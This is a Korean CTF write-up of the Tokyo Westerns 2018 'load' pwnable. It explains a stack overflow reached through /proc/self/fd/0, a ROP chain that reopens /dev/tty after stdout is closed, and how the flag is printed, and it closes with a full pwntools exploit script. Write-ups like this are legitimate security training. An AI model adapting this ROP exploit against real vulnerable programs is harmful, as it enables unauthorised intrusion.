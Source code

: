 ```yaml
---
title: Tokyo Westerns CTF 2018 - load
date: 2024-07-10 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, file descriptor, /dev/tty]
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/load'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## 0x01. Vulnerability

``` c
int __fastcall load_file_4008FD(void *buf, const char *file_name, __off_t offset, size_t size)
{
  int fd; // [rsp+2Ch] [rbp-4h]

  fd = open(file_name, 0);
  if ( fd == -1 )
    return puts("You can't read this file...");
  lseek(fd, offset, 0);
  if ( read(fd, buf, size) > 0 )
    puts("Load file complete!");
  return close(fd);
}
```

`load_file_4008FD()`를 보면 입력받은 파일명을 `open`해서 내용을 `size`만큼 읽은 후 `main()`의 `buf` 변수에 써준다.

이 때 `file_name`을 `/proc/self/fd/0`으로 조작해준다면, 파일의 내용을 읽는 것이 아닌 `stdin`을 읽어서 `buf`에 쓰는 꼴이 된다.

``` c
  char buf[32]; // [rsp+0h] [rbp-30h] BYREF
  size_t size; // [rsp+20h] [rbp-10h]
  __off_t offset; // [rsp+28h] [rbp-8h]
```

`main()`의 `buf`는 `rbp-0x30`에 위치해있고 원하는 만큼 `size`를 입력할 수 있으니 BOF 취약점이 발생한다.

## 0x02. Exploit

BOF 취약점이 있으니 libc leak을 하려고 했는데 plt가 있는 `puts()`든 `_printf_chk()`든 이상하게 출력이 안됐다.

그래서 디버깅을 해보니 `puts()`의 리턴 값이 `-1`인 것을 확인했고, 뭔가 에러가 발생했음을 알았다.

언제 이런 에러가 발생하는지 찾아보다가 `stdout`에 문제가 생기면 그럴 수 있다는 정보를 찾아서 확인해보니...

``` c
int close_4008D8()
{
  close(0);
  close(1);
  return close(2);
}
```

`load_file_4008FD()`이 끝난 후 `main()`이 종료되기 전에 `close_4008D8()`라는 함수가 호출되는데, 여기에서 `stdout`을 close해버린다.

그래서 구글링을 열심히 해보니 `/dev/tty`를 `open`하면 다시 `stdout`을 살릴 수 있다는 것을 알았다.

문제는 `/dev/tty`를 어디에 넣어놓고 `open()`에 전달할 것이냐인데, BOF 취약점을 트리거하기 위해 `file_name`에 `/proc/self/fd/0`을 넣는 과정에서 `\x00`을 하나 추가하고 `/dev/tty`를 전달하면 될 것 같았다.

``` python
    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])
```

위 payload를 ROP chain에 3번 넣어서 `/proc/self/fd/`에 순서대로 0, 1, 2가 생성되는 것을 확인했다.

이렇게 leak을 하는데에는 성공했으나 `stdin`을 살렸음에도 다음 playoad를 전송하는 것에 실패했다.

그래서 고민이 됐던게 leak을 해봤자 다음 입력을 줄 수가 없으므로 한번에 입력을 줘서 flag를 `open` -> `read` -> `write`를 다 시켜야하는데 `rdx` 관련 가젯이 없다.

그러면 `read`의 세 번째 인자인 `size` 컨트롤이 불가능하기 때문에 `open("flag", 'r');`을 한 이후의 `rdx` 값이 내용을 읽어오기에 충분히 큰 값이기를 기도해야하는데...

실제로 확인해보니 `open`이 종료되고 난 `rdx` 값이 0이었다.

어떻게 출력을 할지 한참을 고민하다가...

``` c
  load_file_4008FD(buf, byte_601040, offset, size);
```

마침 동일한 로직을 수행하는 함수가 코드 영역에 있었다!

-   `rdi` : pop rdi; ret; 가젯 활용, free space인 byte_601040
-   `rsi` : pop rsi; pop r15; ret; 가젯 활용, BOF 트리거 할 때 넣은 "flag" 위치
-   `rdx` : open 종료 후 0
-   `rcx` : open 종료 후 0x00007ffff7e9e53b (충분히 큰 값)

이런식으로 레지스터를 컨트롤해주면 `flag`를 출력할 수 있었다.

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "load"
LIBRARY = "libc.so.6"

pr = 0x0000000000400a73
ppr = 0x0000000000400a71
bp = {
    'read_of_load_file' : 0x400966,
    'main' : 0x400817,
    'end_of_main' : 0x4008A8,
    'close' : 0x4008D8,
    'read_str' : 0x400986,
    'file_name' : 0x601040,
    'load_file' : 0x4008FD,
}

gs = f'''
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def send_msg(s, msg):
    print(s.recvuntil(b": "))
    s.sendline(msg.encode())

def main():
    if(len(sys.argv) > 1):
        s = process(BINARY)
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    send_msg(s, "/proc/self/fd/0\x00/dev/tty\x00flag\x00")
    send_msg(s, "0")
    send_msg(s, "1024")

    payload = b"A" * 0x30
    payload += b"B" * 8

    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])

    # open 3 times -> open 0, 1, 2
    payload += payload_open * 3

    # load_file_4008FD(byte_601040, "flag", offset, size)
    payload += p64(ppr)
    payload += p64(bp['file_name'] + 0x19)      # pop rsi
    payload += p64(0)                           # pop r15
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(bp['load_file'])

    # puts(byte_601040)
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(elf.plt['puts'])

    log.info(f"payload length : {hex(len(payload))}")
    s.sendline(payload)
    pause()
    print(s.recv().split(b"\n")[2])

if __name__=='__main__':
    main()
```
